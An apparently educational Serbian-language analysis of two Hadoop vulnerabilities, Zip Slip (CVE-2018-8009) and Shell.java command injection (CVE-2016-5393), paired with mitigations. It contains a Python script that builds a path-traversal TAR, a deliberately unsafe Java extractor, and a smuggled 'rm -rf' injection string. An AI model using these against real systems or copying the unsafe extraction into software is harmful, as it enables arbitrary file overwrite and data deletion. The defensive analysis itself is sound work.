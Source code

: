 ## Zip Slip (CVE-2018-8009) - analiza

Zip Slip je ranjivost koja se ispoljava prilikom obrade arhivskih fajlova, npr. ZIP i TAR. Ova ranjivost omogućava napadačima da iskoriste nebezbednu logiku raspakivanja fajlova kako bi zapisali zlonamerni sadržaj na neautorizovane lokacije u fajl sistemu.

Glavni uzrok ranjivosti leži u tome što aplikacija ne proverava putanje fajlova unutar arhive. Napadači mogu kreirati arhive koje sadrže fajlove sa apsolutnim putanjama (npr. `C:/Windows/System32`) ili relativnim putanjama koje koriste `../` za vraćanje u prethodne direktorijume. Tokom procesa raspakivanja, ako aplikacija slepo veruje ovim putanjama, može se desiti da zlonamerni fajlovi budu upisani van ciljnog direktorijuma, čime se ugrožava bezbednost sistema.

Primeri pajton skripte za kreiranje malicioznog TAR fajla:
```python
import tarfile
import io

def create_malicious_tar(tar_path, target_file_path, content):
    with tarfile.open(tar_path, "w") as tar:
        # Create a file-like object from the content (bytes)
        fileobj = io.BytesIO(content.encode('utf-8'))
        
        # Create the TarInfo object with the path where you want to extract the file
        tarinfo = tarfile.TarInfo(name=target_file_path)
        tarinfo.size = len(content)  # Set the size of the file

        # Add the file to the TAR archive
        tar.addfile(tarinfo, fileobj=fileobj)

    print(f"Malicious TAR created at: {tar_path}")

# Specify where the file should be unpacked
target_file_path = "C:\\Windows\\System32\\malicious.txt"  # Example of absoulute path
# target_file_path = ..\\..\\malicious.txt"  # Example of relative path
# target_file_path = extracted\\malicious.txt"  # Example of safe path

tar_path = "malicious.tar"

# The content of the file to be packed in the TAR file
content = "This is a malicious file that will be unpacked to a specific directory."

# Create the malicious TAR
create_malicious_tar(tar_path, target_file_path, content)
```

Ranjivost se kod Hadoop sistema moze eksploatisati tako sto se maliciozni TAR fajl prebaci u HDFS i njegovo ekstraktovanje izvrsi pomocu Java programa koji nebezbedno rukuje putanjama na koje treba da se ekstraktuje TAR fajl. Takav Java program je dat u nastavku:

```java
import org.apache.commons.compress.archivers.tar.TarArchiveInputStream;
import org.apache.hadoop.fs.FileSystem;
import org.apache.hadoop.fs.Path;
import org.apache.hadoop.conf.Configuration;
import org.apache.hadoop.fs.FSDataInputStream;

import java.io.IOException;
import java.io.InputStream;
import java.io.FileOutputStream;
import java.io.BufferedOutputStream;
import java.io.File;

public class ExploitHadoopTar {

    public static void main(String[] args) throws IOException {
        if (args.length != 1) {
            System.out.println("Usage: HadoopTarExploit <path-to-tar-file>");
            System.exit(1);
        }

        // Get TAR file path from arguments
        String tarFilePath = args[0];

        // Configuration for Hadoop FileSystem (you may need to adjust this based on your Hadoop setup)
        Configuration conf = new Configuration();
        FileSystem fs = FileSystem.get(conf);

        // Open the malicious TAR file from HDFS
        Path hdfsTarFilePath = new Path(tarFilePath);  // HDFS path
        try (FSDataInputStream tarFileStream = fs.open(hdfsTarFilePath);
             TarArchiveInputStream tarInputStream = new TarArchiveInputStream(tarFileStream)) {

            // Iterate over the TAR entries and extract them
            org.apache.commons.compress.archivers.tar.TarArchiveEntry entry;
            while ((entry = tarInputStream.getNextTarEntry()) != null) {
                String entryName = entry.getName();
                System.out.println("Extracting: " + entryName);

                // Create the local extraction file
                File extractionFile = new File(entryName);  // Local path (relative to current directory or absolute path)

                // If the entry is a directory, create the directory on the local filesystem
                if (entry.isDirectory()) {
                    extractionFile.mkdirs();
                    continue;  // Skip to the next entry
                }

                // Ensure the parent directory exists
                File parentDir = extractionFile.getParentFile();
                if (parentDir != null && !parentDir.exists()) {
                    parentDir.mkdirs();
                }

                // Create the output stream to write the extracted file locally
                try (BufferedOutputStream outputStream = new BufferedOutputStream(new FileOutputStream(extractionFile))) {
                    byte[] buffer = new byte[1024];
                    int bytesRead;
                    while ((bytesRead = tarInputStream.read(buffer)) != -1) {
                        outputStream.write(buffer, 0, bytesRead);
                    }
                }

                System.out.println("Extracted to: " + extractionFile.getAbsolutePath());
            }

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Pokretanjem ovog Java programa doci ce do raspakivanja TAR fajla na putanje koje su podesene u TAR fajlu bez ikakve provere validnosti tih putanja. Pokretanje se vrsi komandom: `hadoop jar path/to/jar/ExploitHadoopTar.jar ExploitHadoopTar path/to/tar/on/hdfs/malicious.tar`.


### Bezbednosne kontrole

1. Validacija raspakovanih putanja prilikom raspakivanja
2. Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje

#### Validacija raspakovanih putanja prilikom raspakivanja
Validacija putanja se ogleda u proveri da li je putanja apsolutna i da li sadrzi `../` za povratak u roditeljski direktorijum. U nastavku je prikazana funkcija za validaciju i izmenjeni deo koda iz prethodnog primera:
```java
private static boolean isPathValid(String entryName) {
    // Check if the path is absolute
    File entryFile = new File(entryName);
    if (entryFile.isAbsolute()) {
        return false;
    }

    // Check if the path contains '../'
    String normalizedPath = entryFile.getPath().replace("\\", "/"); // Normalize path for cross-platform compatibility
    if (normalizedPath.contains("../")) {
        return false;
    }

    return true;
}

...

// Add check in example code
if (!isPathValid(entryName)) {
    System.out.println("Invalid path: " + entryName);
    continue;
}
```

#### Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ogranicenjima za pisanje i citanje
Celi problem se moze preduprediti time sto ce se Hadoop aplikacija pokrenuti tako da nema dozvole za pisanje i citanje na bilo kojoj putanji u fajl sistemu. Potrebno je kreirati korisnika koji ce imati dozvoljeno pisanje i citanje samo iz odredjenih fajlova. Citanje treba biti dozvoljeno u okviru foldera gde je instaliran Hadoop radi mogucnosti citanja konfiguracionih fajlova kao i pristupa podacima u HDFS. Putanje za upisivanje novih podataka je potrebno podesiti po potrebama sistema. Ukoliko se koristi Hadoop MapReduce sistem, potrebno je tacno definisati iz kog direktorijuma je dozvoljeno citanje ulaznih podataka kao i u koji direktorijum je dozvoljeno upisivanje rezultata. Takva provera je potrebna samo ukoliko se barata podacima sa lokalnog racunara, a ne direktno iz HDFS. 

Ovakav sistem zastite je sproveden na nivou operativnog sistema pa se nacini implementacije mogu razlikovati. Sustina je da se kreira novi korisnik u operativnom sistemu i da mu se dodele dozvnoljeni direktorijume u koje moze da upisuje i cita fajlove, a da se ostali zabrane. Nakon toga je potrebno Hadoop pokrenuti sa permisijama tog korisnika.

## Izvršavanje proizvoljnih komandi sa permisijama HDFS servisa (CVE-2016-5393) - analiza

Jedna od pomoćnih klasa (`hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java`) koja se bavi obradom shell komandi radi pod pretpostavkom da komanda neće imati neke od specijalnih karaktera u sebi. Ovakva pretpostavka dovodi do toga da se prilikom izvršavanja bash komande može ubaciti maliciozna bash komanda. Napad koji eksploatiše ovu ranjivost je command injection napad koji se može izvršiti zbog neadekvatne obrade navodnika u komandi. Da bi se napad izvršio, korisnik mora biti autentifikovan i mora mu biti omogućeno korišćenje HDFS servisa.

Primer maliciozne komande bi bio `rm -rf /some/path $userInput` gde `userInput` sadrži `" ; rm -rf /important/path"` i gde bi rezultat bio komanda `rm -rf /some/path ; rm -rf /important/path` koja bi obrisala i `/some/path` i `/important/path`. Ovakvim napadom je moguće izvršiti bilo koju komandu pod permisijama HDFS servisa.

#### Bezbednosne kontrole
Potrebno je sanitizovati korisnički unos i ne dozvoliti da se korisnički unos smatra komandom. To je učinjeno sledećom funkcijom ([fix](https://github.com/apache/hadoop/pull/119) kada je ranjivost popravljena i dodata funkcija za sanitizaciju):
```java
static String bashQuote(String arg) {
    StringBuilder buffer = new StringBuilder(arg.length() + 2);
    buffer.append('\'');
    buffer.append(arg.replace("'", "'\\''"));
    buffer.append('\'');
    return buffer.toString();
}
```
Ovakva obrada dovodi do toga da se korisnički unos transformiše u string. Na početak i kraj korisničkog unosa se dodaju `'` čime se obezbeđuje da se korisnički unos smatra stringom. Ako originalni string sadrži jedan ili više apostrofa, oni se zamenjuju nizom `'\\''`. Ovaj izraz izlazi iz trenutnog navodnika, dodaje karakter `'` kao deo stringa, a zatim ponovo ulazi u režim stringa. Time se postiže da se kompletan korisnički unos transformiše u string i onemogućava njegovo izvršenje.

Korišćenjem ove funkcije prethodna maliciozna komanda se pretvara u `rm -rf /some/path ' ; rm -rf /important/path'` i nije je moguće izvršiti.

Ranjivost je prisutna u Hadoop verzijama: `2.6.x` pre `2.6.5` i `2.7.x` pre `2.7.3`. Ranjivost je popravljena u Hadoop verzijama: `2.8.0`, `2.7.3`, `2.6.5`, `3.0.0-alpha1` pa se kao mitigacija preporučuje prebacivanje na navedene verzije.
